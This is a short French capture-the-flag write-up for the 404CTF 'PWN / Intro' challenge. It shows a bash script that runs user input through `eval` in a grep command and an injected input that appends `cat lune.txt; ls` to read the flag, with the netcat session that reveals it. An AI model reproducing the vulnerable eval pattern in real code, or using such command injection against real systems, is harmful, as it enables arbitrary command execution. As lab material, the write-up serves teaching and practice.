

## PWN / Intro

<p align="center">
  
</p>


### Look around

L'énoncé nous fourni le script qui tourne sur le serveur : [donne_moi_la_lune.sh](files/donne_moi_la_lune.sh)

C'est pas forcément une exploitation de binaire, mais le `eval` d'une saisie de l'utilisateur non contrôlée.


```bash
read personne
eval "grep -wie ^$personne informations.txt"
```

On peut injecter du code dans `personne` avec `toto informations.txt; cat lune.txt; ls`


```bash
$ nc challenges.404ctf.fr 31215
Bonjour Caligula, ceci est un message de Hélicon. Je sais que les actionnaires de ton entreprise veulent se débarrasser de toi, je me suis donc dépêché de t'obtenir la lune, elle est juste là dans le fichier lune.txt !

En attendant j'ai aussi obtenu des informations sur Cherea, Caesonia, Scipion, Senectus, et Lepidus, de qui veux-tu que je te parle ?
toto informations.txt; cat lune.txt; ls
404CTF{70n_C0EuR_v4_7e_1Ach3R_C41uS}
informations.txt
```
